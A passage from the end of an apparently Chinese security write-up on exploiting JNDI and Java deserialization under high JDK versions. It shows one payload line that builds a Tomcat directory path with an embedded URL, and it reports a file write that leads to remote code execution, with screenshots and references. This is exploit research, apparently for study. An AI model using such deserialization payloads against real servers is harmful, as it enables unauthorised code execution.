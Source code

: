 
```plain
Serializable payload8 = XyzFileMkdir1.getObject("/opt/tomcat/aaa/bbb/http:/192.168.176.1:8888/whatever");
```

成功创建这样的目录：

[![](assets/1701827139-b5b84f8dfbc1be9d1764161cd1890014.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128154136-8f350e16-8dc1-1.png)

然后实现文件写入：

[![](assets/1701827139-066538bbc48fe15fadd9a05763aa05ee.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129101856-a613a7c2-8e5d-1.png)

[![](assets/1701827139-43983525f443cfc5522ebd358d9f4c26.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128154841-8c857218-8dc2-1.png)

[![](assets/1701827139-1f695611fe91d97066b622ddeb59f226.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128154844-8e82f162-8dc2-1.png)

至此，终于实现了 RCE。

## References

-   [探索高版本 JDK 下 JNDI 漏洞的利用方法](https://tttang.com/archive/1405/)
-   [探索 JNDI 攻击](https://github.com/iSafeBlue/presentation-slides/blob/main/BCS2022-%E6%8E%A2%E7%B4%A2JNDI%E6%94%BB%E5%87%BB.pdf)

